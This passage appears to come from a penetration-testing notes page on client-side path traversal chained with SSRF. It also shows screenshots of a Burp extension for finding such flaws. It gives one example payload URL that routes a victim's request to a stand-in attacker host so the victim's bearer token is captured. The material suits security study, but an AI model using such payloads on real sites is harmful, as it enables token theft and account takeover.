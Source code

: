 **Exploring for Client-Side Path Traversal:**

* By examining the application’s client-side JavaScript, particularly looking at navigation and URL handling, you can find client-side path traversal vulnerabilities. These are often easier to discover in large applications with complex JavaScript files.
* For instance, parameters passed through the URL, such as `?x=1`, or values in the URL hash might be processed by the client-side JavaScript and result in HTTP requests being made on behalf of the user.

**Combining Vulnerabilities for Exploitation:**

* Discover a client-side path traversal vulnerability where parameters are used in HTTP requests, like `?id=1`, leading to an API call such as `/api/users/1`.
*   Craft a payload to leverage both vulnerabilities. For example:

    ```bash
    bashCopy codehttps://victimsite/users?id=/../../example?url=https://attacker-site/?payload
    ```
* Here’s how it works:
  * The client-side path traversal payload (`/../../example`) is designed to manipulate the server's behavior.
  * When the SSRF endpoint processes the URL, it triggers the request to `https://attacker-site/?payload`, which causes the victim's browser to send the authorization bearer with the request, thus allowing the attacker to capture it.

## CSPT Burp Extension

{% embed url="https://github.com/doyensec/CSPTBurpExtension" %}

**Configurations**

<figure><img src="../.gitbook/assets/image (274).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (273).png" alt=""><figcaption></figcaption></figure>

**Results**

<figure><img src="../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

**Removing False Positives**

<figure><img src="../.gitbook/assets/image (276).png" alt=""><figcaption></figcaption></figure>

**Passive Scanner**

<figure><img src="../.gitbook/assets/image (277).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (278).png" alt=""><figcaption></figcaption></figure>

**Export Source With Canary**

<figure><img src="../.gitbook/assets/image (279).png" alt=""><figcaption></figcaption></figure>

### Automate CSPT2CSRF Using the Burp Extension
